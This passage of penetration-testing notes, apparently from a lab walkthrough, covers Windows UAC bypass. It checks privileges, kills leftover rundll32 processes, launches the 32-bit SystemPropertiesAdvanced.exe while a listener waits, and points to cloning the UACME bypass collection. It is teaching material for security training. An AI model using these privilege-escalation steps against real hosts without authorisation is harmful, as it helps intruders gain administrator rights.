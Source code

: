 Once we get a connection back, we'll see normal user rights:

```shell-session
whoami /priv
```

### Executing SystemPropertiesAdvanced.exe on Target Host

Before proceeding, we should ensure that any instances of the rundll32 process from our previous execution have been terminated.

```cmd
tasklist /svc | findstr "rundll32"
```

Output:

```cmd
rundll32.exe                  6300 N/A
rundll32.exe                  5360 N/A
rundll32.exe                  7044 N/A
```

Therefore, killing the processes:

```cmd
taskkill /PID 7044 /F
taskkill /PID 6300 /F
taskkill /PID 5360 /F
```

Now, we can try the 32-bit version of `SystemPropertiesAdvanced.exe` from the target host (don't forget to previously set the listener):

```cmd
C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```



## UAC bypasses


### UACME

The [UACME](https://github.com/hfiref0x/UACME) project maintains a list of UAC bypasses, including information on the affected Windows build number, the technique used, and if Microsoft has issued a security update to fix it.

Repo: [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)

```
git clone https://github.com/hfiref0x/UACME.git
```